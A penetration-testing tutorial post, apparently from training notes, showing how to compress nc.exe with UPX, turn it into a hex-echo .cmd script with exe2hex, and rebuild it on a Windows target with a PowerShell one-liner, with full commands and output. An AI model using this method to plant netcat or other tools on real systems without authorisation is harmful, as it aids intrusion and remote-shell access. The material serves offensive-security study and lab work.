 ```yaml
---
description: >-
  Downloads with exe2hex and Powershell
title: Downloads with exe2hex and Powershell              # Add title here
date: 2022-11-09 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Downloads with exe2hex and Powershell]                     # Change Templates to Writeup
tags: [file transfer, windows download, exe2hex, powershell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

This technique is useful to compress the binary we want to transfer, convert it to a hex string, and embed it into a Windows script.

On the Windows machine, we will paste this script into our shell and run it. It will redirect the hex data into powershell.exe, which will assemble it back into a binary. This will be done through a series of non-interactive commands.

```bash
kali@kali:~$ upx -9 nc.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2018
UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe
Packed 1 file.

kali@kali:~$ ls -lh nc.exe
-rwxr-xr-x 1 kali kali 29K Sep 18 14:22 nc.exe
```

As we can see, upx has optimized the file size of nc.exe, decreasing it by almost 50%. 

Now that our file is optimized and ready for transfer, we can convert nc.exe to a Windows script (.cmd) to run on the Windows machine, which will convert the file to hex and instruct powershell.exe to assemble it back into binary. We'll use the excellent exe2hex tool for the conversion process:

```bash
kali@kali:~$ exe2hex -x nc.exe -p nc.cmd
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) nc.cmd
```

This creates a script named nc.cmd with contents like the following:

```bash
kali@kali:~$ head nc.cmd
echo|set /p="">nc.hex
echo|set /p="4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000800000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000">>nc.hex
echo|set /p="504500004c010300b98eae340000000000000000e0000f010b010500007000000010000000d00000704c010000e000000050010000004000001000000002000004000000000000000400000000000000006001000010000000000000030000000000100000100000000010000010000000000000100000000000000000000000">>nc.hex
...
```

Notice how most of the commands in this script are non-interactive, mostly consisting of echo commands. Towards the end of the script, we find commands that rebuild the nc.exe executable on the target machine:

```bash
...
powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1};set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"
```

When we copy and paste this script into a shell on our Windows machine and run it, we can see that it does, in fact, create a perfectly-working copy of our original nc.exe.

```powershell
...
000000000000000000000000000000000000000000000">>nc.hex

C:\Users\offsec>powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1};set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"
C:\Users\offsec> nc -h
[v1.10 NT]
connect to somewhere:   nc [-options] hostname port[s] [ports] ...
listen for inbound:     nc -l -p port [options] [hostname] [port]
options:
        -d              detach from console, stealth mode

        -e prog         inbound program to exec [dangerous!!]
...
```